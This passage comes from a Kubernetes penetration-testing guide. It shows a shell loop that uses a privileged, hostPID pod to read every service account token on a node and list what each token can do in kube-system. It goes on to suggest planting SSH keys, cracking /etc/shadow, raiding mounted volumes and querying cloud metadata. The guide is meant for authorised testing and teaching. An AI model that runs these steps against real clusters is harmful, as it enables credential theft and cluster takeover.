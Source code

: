 **Run kubectl can-i --list -n kube-system against ALL tokens found on the node**

*Run this where you have kubectl installed, and NOT from within the priv pod.*
```
tokens=`kubectl exec -it priv-and-hostpid-exec-pod -- find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-and-hostpid-exec-pod -- cat $filename_clean`; \
echo -n "What can I do? "; \
kubectl --token=$tokena auth can-i --list -n kube-system; echo; \
done
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.


## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# References and further reading: 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
* [Secure Kubernetes - KubeCon NA 2019 CTF](https://securekubernetes.com/)
* Command and KubeCTL: Real-World Kubernetes Security for Pentesters - [Talk](https://www.youtube.com/watch?v=cRbHILH4f0A) / [Blog](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
* Compromising Kubernetes Cluster by Exploiting RBAC Permissions - [Talk](https://www.youtube.com/watch?v=1LMo0CftVC4) / [Slides](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf)
* The Path Less Traveled: Abusing Kubernetes Defaults - [Talk](https://www.youtube.com/watch?v=HmoVSmTIOxM) / [Repository](https://github.com/mauilion/blackhat-2019)
  
